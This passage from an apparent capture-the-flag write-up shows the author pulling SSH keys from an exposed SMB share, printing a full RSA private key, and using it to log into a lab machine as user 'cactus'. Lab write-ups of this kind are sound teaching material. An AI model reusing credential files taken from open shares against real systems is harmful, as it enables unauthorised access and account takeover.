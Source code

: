                     12316808 blocks of size 1024. 7506728 blocks available
    smb: \.ssh\>
    
We download the `id_rsa` and the ``id_rsa.pub`` since they are the only ones we are allowed access to. When we open them we get the following:

    diogo@kali ~ :$ cat id_rsa
    
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEA2+zmi/My2eWfDlN8GT0iEB2qMiPGHNyP/P2On2loGE2W3zT3
    sZYtI8XQHk3hstl91wAlnAeBxXo24jbDGC48ude4MFijwbzfOuYvLiENBqmsqvyp
    gR6bgW0dMl/0qcn8r80d1Q9eqYPw/lk/IS2jR0mJuhTWC7JlZ1g0iQwYUte/XM37
    bqFueZsPzqs1la+ZZ/XCnnrl5TVdZagowahdwpcxAbzeCVvBkv64i03h3F3jCDFE
    7iKa+F6Lzf1YryJS6k2Mu5R7lIei9kagH8OfhUq+EGVtcxwjKEuhaKE6Jqv9NxBi
    QhnKfNP309HtOJ/u/j8Z5r2UJDsHtQNYVBugvwIDAQABAoIBABgca9YyDoQnEX4P
    lw5pTl+38N3YYDLv13VkEwvVEY2AjCbidrlofoBqgnugDDuAbrRwlq75f7e3w2af
    nFn9T7kMNmxOe32VCGA7tjZ3dycg2QZR9v9p7KCO5uGL9ZXbyDE56qheLAGnrnck
    L7CigUEihc/50tGreESRPgk8YzpJquLS8G00h5GQPnKnboawTI9S+lkKzIuLpLBX
    +Bn7lK1jacpnNjA1qkzg6yc7wlfxY9CPhIeuWZTwDAk5fHpPPVUoYRqRPJtAki3s
    8mU2bbEtBj/6JqKWljhXkYMgBy6Ua9qaKoRb/FAMivg9VPp13330DIurHsSPHRum
    008tKakCgYEA+IXJwrav+Bc3CG6Quc+hl/x7lnfHBmsK3jZP3YJ013/02r1ESyrJ
    5+OTp5V7O4eRbdWWAFOHWUAN8m2/JM3hwmNJecrYcFLE4wFrFW3dIRanMuomakN4
    snbiDGLhJ4EePXCEaoI0bD9/KUnoqkQpIR26TcZ2m+3WaBnISP98d5UCgYEA4orY
    oyzYmdUpNCFK3MDuJMcrTMBwnl6L1DvT15gk/+bG/mAVgHgsyT2SwbbVH43sNmt1
    tgGm7xWSOulmJ3ztxhCXwAghlSmP0coPzJq2LuusgdB4kYAwgV7LZB0aqx7aBFyw
    oGb7U+fcTmLZpd7gspc+n+JLFkuh9EVmovHW0gMCgYEA8x117Svn4qtbI719iLfM
    HbFZeS29HdMzM4QwBsJq6LF850rFdz7pexZOyF7bybVqF+ccMT+FJVMbEbA4j5l0
    I0QbibBcoSzm/CbUCYeLDaZqc81JPSS5+uN/aJyGI64U1gevEb5D6C0JiWuK1p2N
    Gp9JNHJUb19wIjAulPKRYS0CgYBcUX61CGqATfiLkOGkEk8515xSm72JHDhZVcQf
    gJXbXt1K/jbk8pQ1sgzjOjGhuUFAcAw5DnVLyvubXE/P2b4/z7U3gVjGI3jDYleL
    5qRFfK8A+8aWbKnXnpy+AIpEn77yth8YTr8u0zbZDrlpOelRfgb8Osiknk+ybrHD
    x0/mpwKBgQCsrvJXtzUQwKsskWpYdOKp5sB0BUNCK4nC4T8T4aqGQaa2X87fmGU1
    R8KXJ1nCfENH+hCza0ZDxUX7Pf2SWGLlminvZHxvl/BUZanpYaJJGCKSNM05tDsh
    71DetLqdn48jtdav/U5i+/lSIQ9fW17JNPtkDD26fAmWg40za1Z51g==
    -----END RSA PRIVATE KEY-----
    
    diogo@kali ~ :$ cat id_rsa.pub
    
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDb7OaL8zLZ5Z8OU3wZPSIQHaoyI8Yc3I/8/Y6faWgYTZbfNPexli0jxdAeTeGy2X3XACWcB4HFejbiNsMYLjy517gwWKPBvN865i8uIQ0Gqayq/KmBHpuBbR0yX/SpyfyvzR3VD16pg/D+WT8hLaNHSYm6FNYLsmVnWDSJDBhS179czftuoW55mw/OqzWVr5ln9cKeeuXlNV1lqCjBqF3ClzEBvN4JW8GS/riLTeHcXeMIMUTuIpr4XovN/VivIlLqTYy7lHuUh6L2RqAfw5+FSr4QZW1zHCMoS6FooTomq/03EGJCGcp80/fT0e04n+7+PxnmvZQkOwe1A1hUG6C/ cactus@polosmb

This is all we need! We have managed to obtain John Cactus's username - **cactus** - since in the end of the `id_rsa.pub` file we can read that his handle is ``cactus@polosmb``. Besides that, we also have access to his RSA private-key. All we are left to do now is to try and connect to the main server via SSH. That is achieved using the following command:

    diogo@kali ~ :$ ssh cactus@10.10.253.213 -i id_rsa
    
    The authenticity of host '10.10.253.213 (10.10.78.209)' can't be established.
    ECDSA key fingerprint is SHA256:RZt+npRH1P+pLVe+/9mqAkepvpb20f+TzqgPAhYhHss.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.253.213' (ECDSA) to the list of known hosts.
    Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)
    